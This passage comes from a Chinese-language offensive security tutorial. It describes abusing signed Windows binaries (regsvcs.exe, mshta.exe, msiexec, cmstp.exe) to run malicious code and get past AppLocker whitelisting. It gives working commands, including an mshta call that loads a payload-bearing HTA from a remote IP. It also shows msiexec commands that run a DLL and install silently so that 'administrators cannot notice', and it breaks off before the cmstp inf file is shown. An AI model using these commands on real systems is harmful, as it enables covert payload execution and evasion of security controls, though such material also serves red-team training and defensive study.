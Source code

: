利用

```
regsvcs.exe Micropoor.dll
```

**2.5 白名单 Mshta.exe**

Mshta.exe 是微软 Windows 操作系统相关程序，英文全称 Microsoft HTML Application，可翻译为微软超文本标记语言应用，用于执行. HTA 文件。

第一步找到 mshta.exe

在以下两个目录下：

C:\Windows\System32

C:\Windows\SysWOW64

第二步生成恶意的 hta 文件

这里我用 nps_payload 生成：

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODuYXE02HyqmCMnwKAvEZ1aLPict9lcsicGPlVVwKtPXgcq5RjRdKdPr0JKicXUTJAEIHFdafFUukdVLw/640?wx_fmt=png)

可以远程加载 payload  

```
mshta.exe http://192.168.75.131/Micropoor.hta
```

**2.6 白名单 Msiexec**

Msiexec 是 Windows Installer 的一部分。用于安装 Windows Installer 安装包（MSI）, 一般在运行 Microsoft Update 安装更新或安装部分软件的时候出现，占用内存比较大。并且集成于 Windows 2003，Windows 7 等。

无界面安装程序，管理员在线也无法察觉

```
msiexec /a Any.msi /quiet
```

1. 生成 dll 文件

2. 执行 dll 文件

```
msiexec /y Gamma.dll
```

### 2.7 白名单 Cmstp.exe

Cmstp 安装或删除 “连接管理器” 服务配置文件。如果不含可选参数的情况下使用，则 cmstp 会使用对应于操作系统和用户的权限的默认设置来安装服务配置文件。

位置在：

C:\Windows\System32\cmstp.exe

C:\Windows\SysWOW64\cmstp.exe

如果找不到请 cd 到 c 盘根目录下，dir /S cmstp.exe

这里来个例子，cmstp.exe 远程执行. sct 绕过 applocker

inf 文件内容：
